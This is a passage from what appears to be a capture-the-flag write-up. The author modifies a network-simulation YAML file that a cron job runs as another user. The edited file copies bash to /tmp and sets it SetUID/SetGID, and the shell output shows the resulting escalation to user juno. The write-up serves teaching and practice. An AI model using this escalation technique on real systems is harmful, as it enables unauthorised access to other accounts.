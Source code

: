 ```
    processes:
    - path: /usr/bin/curl
      args: -s server
      start_time: 5s

```

It’s creating a network with a single gigabyte switch, and then four hosts. The first is a server the runs a Python webserver after three seconds, and then three clients that use `curl` to request that page after five seconds.

#### Modify

It looks like this can run whatever programs I want it to run. I’ll update the `network-simulation.yml` file in `/dev/shm`:

```

general:
  stop_time: 10s
  model_unblocked_syscall_latency: true

network:
  graph:
    type: 1_gbit_switch

hosts:
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /bin/bash /tmp/0xdf
      start_time: 3s
    - path: /usr/bin/chmod
      args: 6755 /tmp/0xdf
      start_time: 5s

```

I’ll just have it create a single server with two processes. The first will create a copy of `bash` in `/tmp` and the seconds will set it as SetUID/SetGID. Once the cron runs, `/tmp/0xdf` is there, owned by juno, SetUID/SetGID, and running it with `-p` gives a shell with effective uid and gid of juno:

```

postgres@jupiter:/dev/shm$ ls -l /tmp/0xdf 
-rwsr-sr-x 1 juno juno 1396520 Aug 31 20:56 /tmp/0xdf
postgres@jupiter:/dev/shm$ /tmp/0xdf -p
0xdf-5.1$ id
uid=114(postgres) gid=120(postgres) euid=1000(juno) egid=1000(juno) groups=1000(juno),119(ssl-cert),120(postgres)

```
